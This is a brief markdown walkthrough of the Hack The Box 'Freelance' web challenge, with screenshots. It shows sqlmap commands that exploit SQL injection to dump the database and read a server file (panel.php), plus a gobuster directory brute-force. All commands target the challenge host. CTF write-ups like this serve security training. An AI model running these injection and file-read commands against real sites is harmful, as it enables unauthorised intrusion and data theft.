 # HTB_Freelance_Web_Challenge_Solution

open Website 
![Open Website](/host.png)

Then right click and Select Source code
![Then right click and Select Source code](/Page_Source.png)

try Sql injection
![Then right click and Select Source code](/link.png)

Enumeration using sqlmap tool
  
  sqlmap -u http://docker.hackthebox.eu:31569/portfolio.php?id=1 --dump --batch
![Then right click and Select Source code](/sqlmap2.png)
![Directory Brute-force using gobuster](/sqlmap1.png)

gobuster dir -u http://docker.hackthebox.eu:31569/ -w /usr/share/wordlists/dirb/common.txt 
![Directory Brute-force using gobuster](/directort1.png)


Read the file in server using sqlmap

sqlmap -u http://docker.hackthebox.eu:31569/portfolio.php?id=1 --file-read=/var/www/html/administrat/panel.php --dump --batch
![Directory Brute-force using gobuster](/output.png)
![Directory Brute-force using gobuster](/output2.png)

